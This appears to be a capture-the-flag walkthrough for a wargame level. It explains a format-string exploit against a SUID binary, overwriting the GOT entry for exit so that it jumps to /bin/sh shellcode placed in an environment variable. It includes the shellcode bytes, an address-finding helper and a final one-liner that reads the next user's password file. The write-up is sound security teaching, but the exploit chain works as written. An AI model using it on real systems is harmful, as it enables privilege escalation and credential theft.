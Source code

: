 # Walkthrough - Level 05

The program has SUID permissions from the user `level06`, which will allow us to obtain their flag.

# Disassembly

- A `fgets` function that reads 100 bytes from stdin
- A `for` loop that converts uppercase to lowercase
- A `printf` that displays the converted string
- A call to the `exit` function

# Exploit

The goal is to rewrite the GOT (Global Offset Table) of the `exit` function to make it jump to a shellcode that is in the environment variables. In this case, we cannot use an overflow with the `fgets` function because it reads into a larger buffer. However, `printf` has no specific format, using the format read from the standard input.

There is a special printf formatting with `%n` that allows storing the number of printed characters directly into an address.
```c
#include <stdio.h>
int main(void) {
    int a = 0;
    printf("Hello world\n%n", &a);
    printf("a : %d\n", a);
    return 0;
}
```
```
Hello World
a : 12
```
We can then use the format `%n` by passing the address of `m` as an argument to modify its value.

The arguments of variadic functions (like `printf`) are passed on the stack and not in registers. This allows us to empty our stack using the following format:
```bash
./level05
%08x %08x %08x %08x %08x %08x %08x
```
Now we want to find the number of arguments to remove from the stack before accessing the buffer (`s`).
```bash
./level05
aaaa %08x %08x %08x %08x %08x %08x %08x %08x %08x %08x %08x %08x %08x
```
```
aaaa 00000064 f7fcfac0 f7ec3af9 ffffd6ef ffffd6ee 00000000 ffffffff ffffd774 f7fdb000 61616161 38302520 30252078 25207838
```
As shown above, we access the buffer (`s`) after popping the stack 9 times (`0x61` corresponds to `a` in ASCII).

Then we need the address that is dereferenced by the GOT (`exit`), which we can get using GDB.
```bash
gdb ./level05
(gdb) disas exit
Dump of assembler code for function exit@plt:
0x08048370 <+0>: jmp *0x80497e0
0x08048376 <+6>: push $0x18
0x0804837b <+11>: jmp 0x8048330
End of assembler dump.
```
The address to rewrite is therefore `0x80497e0`.

Now we need the address of a shellcode, which we will inject into the environment variables and get its address with the following script:
```bash
export SHELLCODE=$(python -c 'print("\x90" * 20 + "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80")')
```
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
int main(int argc, char *argv[]) {
    char *ptr;
    if(argc < 3) {
        printf("Usage: %s <environment variable> <target program name>\n", argv[0]);
        exit(0);
    }
    ptr = getenv(argv[1]); /* get env var location */
    ptr += (strlen(argv[0]) - strlen(argv[2]))*2; /* adjust for program name */
    printf("%s will be at %p\n", argv[1], ptr);
}
```
We must remember to compile the program with the `-m32` flag to force 32-bit compilation.
```bash
gcc /tmp/env_variable.c -m32 -o /tmp/env_variable
/tmp/env_variable SHELLCODE ./level05
```
```
SHELLCODE will be at 0xffffd8d5
```
`0xffffd8d5 => 4294957269`

Since the address is very large, we will write it using two `%n` by writing 2 bytes then 2 more bytes.

The first value to store is `0xd8d5 = 55509` (as we are in little-endian)
`55509 - 4 - 4 - 4 - 8 * 8 = 55433`
The second value to store is `0xffff = 65535`
`65535 - 55509 = 10026`

With the printf padding, the complete command is therefore:
```bash
(python -c 'print("\xe0\x97\x04\x08" + "A" * 4 + "\xe2\x97\x04\x08" + "%08x" * 8 + "%055433x" + "%n" + "%010026x" + "%n")'; echo "cat /home/users/level06/.pass") | ./level05
```